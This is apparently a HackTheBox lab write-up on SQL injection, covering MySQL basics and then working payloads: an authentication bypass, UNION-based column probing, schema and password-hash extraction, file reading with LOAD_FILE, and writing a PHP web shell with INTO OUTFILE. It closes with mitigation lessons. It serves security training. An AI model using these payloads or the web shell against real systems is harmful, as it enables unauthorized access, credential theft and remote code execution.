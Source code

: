 # HTB-Writeup-SQLInjection
HackTheBox Writeup: SQL Injections - exploitation and mitigation techniques like enumeration, UNION injections, file reading/writing, and RCE for offensive security.

By Ramyar Daneshgar 

SQL injection is a code injection technique that exploits vulnerabilities in a web application's interaction with its database. It occurs when an attacker manipulates user input to execute arbitrary SQL queries, leading to unauthorized access to data, administrative control, or even remote code execution.

Types of SQL Injection:

Classic SQL Injection: Directly retrieves data by injecting SQL queries.
Union-Based SQL Injection: Combines results from multiple queries using the UNION operator.
Error-Based SQL Injection: Exploits error messages to gain insights into the database structure.
Blind SQL Injection: No direct feedback; relies on true/false conditions or time delays.
Time-Based Blind SQL Injection: Leverages functions like SLEEP() to infer results.
Out-of-Band SQL Injection: Exploits secondary communication channels, like DNS requests.


#### **Intro to MySQL**
**Objective**: Identify the first database in the MySQL instance.

1. **Connect to the MySQL Server**:  
   To connect, I used the `mysql` client with the provided credentials. The `-h` specifies the host, `-P` defines the port, and `-u` and `-p` provide the username and password.
   ```bash
   mysql -h STMIP -P STMPO -u root -ppassword
   ```
   **Rationale**: This establishes a connection to the target database server.

2. **List Databases**:  
   Using the `SHOW databases;` query, I enumerated all databases in the server.
   ```sql
   SHOW databases;
   ```
   **Result**: The output displayed databases such as `employees` and `mysql`.

**Key Takeaway**: Always enumerate databases first to identify potential targets.

---

#### **SQL Statements**
**Objective**: Retrieve the department number for the "Development" department.

1. **Switch to the Target Database**:
   I used the `USE` command to switch to the `employees` database.
   ```sql
   USE employees;
   ```

2. **List Tables**:
   To understand the database's structure, I listed all tables.
   ```sql
   SHOW TABLES;
   ```

3. **Understand Table Schema**:
   I inspected the structure of the `departments` table to identify relevant columns.
   ```sql
   DESCRIBE departments;
   ```

4. **Query Specific Data**:
   Using a `SELECT` statement, I filtered the table for rows where `dept_name = "Development"`.
   ```sql
   SELECT dept_no FROM departments WHERE dept_name="Development";
   ```

**Key Takeaway**: Schema inspection is essential for crafting precise queries.

---

#### **Query Results**
**Objective**: Identify the last name of the employee based on specific conditions.

1. **Inspect Table Structure**:
   I used `DESCRIBE employees;` to confirm the presence of relevant columns (`first_name`, `last_name`, and `hire_date`).
   ```sql
   DESCRIBE employees;
   ```

2. **Query with Conditions**:
   I filtered for employees whose first name starts with "Bar" and hire date is `1990-01-01` using the `LIKE` operator and exact match.
   ```sql
   SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date='1990-01-01';
   ```

**Key Takeaway**: Use filtering operators like `LIKE` and `AND` for precision in multi-condition queries.

---

#### **SQL Operators**
**Objective**: Count records where `emp_no > 10000` or title does not include "engineer."

1. **Inspect Table Structure**:
   I analyzed the schema of the `titles` table.
   ```sql
   DESCRIBE titles;
   ```

2. **Count Records with Conditions**:
   Using the `COUNT()` function, I queried the number of rows satisfying either condition.
   ```sql
   SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%engineer%';
   ```

**Key Takeaway**: Aggregate functions like `COUNT()` simplify data analysis without fetching full datasets.

---

#### **Subverting Query Logic**
**Objective**: Bypass login authentication.

1. **Inject Malicious Logic**:
   By injecting `' OR '1' = '1' -- -`, I bypassed the authentication mechanism. This payload always evaluates to true.
   ```sql
   tom' OR '1' = '1' -- -
   ```

**Key Takeaway**: Input validation is critical to prevent unauthorized access.

---

#### **Union Injection**
**Objective**: Use a Union injection to extract information.

1. **Determine Number of Columns**:
   I tested queries with varying numbers of columns until finding the correct match (4 columns).
   ```sql
   ' UNION SELECT 1-- -
   ' UNION SELECT 1,2-- -
   ' UNION SELECT 1,2,3,4-- -
   ```

2. **Inject Data Extraction Function**:
   Injecting `user()` into the query retrieved the database user.
   ```sql
   ' UNION SELECT 1,user(),3,4-- -
   ```

**Key Takeaway**: Matching column counts in Union injections is vital for successful exploitation.

---

#### **Database Enumeration**
**Objective**: Find the password hash for `newuser` in the `users` table.

1. **Enumerate Columns**:
   I queried the `INFORMATION_SCHEMA.COLUMNS` table to list column names in the `users` table.
   ```sql
   foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
   ```

2. **Extract Data**:
   I used a Union injection to retrieve the username and password hash.
   ```sql
   foo' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
   ```

**Key Takeaway**: The `INFORMATION_SCHEMA` database is a critical resource for understanding database structures.

---

#### **Reading Files**
**Objective**: Extract the database password.

1. **Verify File Privileges**:
   I checked if the current user (`root`) had the `FILE` privilege.
   ```sql
   foo' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
   ```

2. **Load Configuration File**:
   Using `LOAD_FILE()`, I read the contents of `config.php` to extract the database password.
   ```sql
   foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
   ```

**Key Takeaway**: Misconfigured privileges can expose sensitive files.

---

#### **Writing Files**
**Objective**: Write a web shell for remote code execution.

1. **Check File Write Permissions**:
   I verified that `secure_file_priv` was unset, allowing unrestricted file writes.
   ```sql
   foo' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
   ```

2. **Write the Web Shell**:
   I used `INTO OUTFILE` to write a PHP web shell to the web root directory.
   ```sql
   foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
   ```

3. **Execute Commands**:
   Using the shell, I executed commands to retrieve the flag.
   ```shell
   http://STMIP:STMPO/shell.php?cmd=cat%20../flag.txt
   ```

**Key Takeaway**: File write capabilities can escalate an SQL injection vulnerability into a full system compromise.

---

### Lessons Learned
1. **Input Validation**: Never trust user input. Validate all inputs against strict rules, e.g., using regular expressions or input sanitization functions.
   - **Use Parameterized Queries**: Replace dynamic queries with parameterized ones to prevent SQL injection entirely.

2. **Principle of Least Privilege**: Restrict database users to the minimal permissions required for their role. For example:
   - The web application should not have `FILE` or superuser privileges.

3. **Secure Configuration**: Always set `secure_file_priv` to a specific directory or `NULL` to prevent unrestricted file reads/writes.

4. **Error Suppression**: Avoid exposing database error messages to users as they can leak sensitive information about the database structure.

5. **Regular Audits**: Conduct regular code and configuration audits to identify potential vulnerabilities before attackers can exploit them.

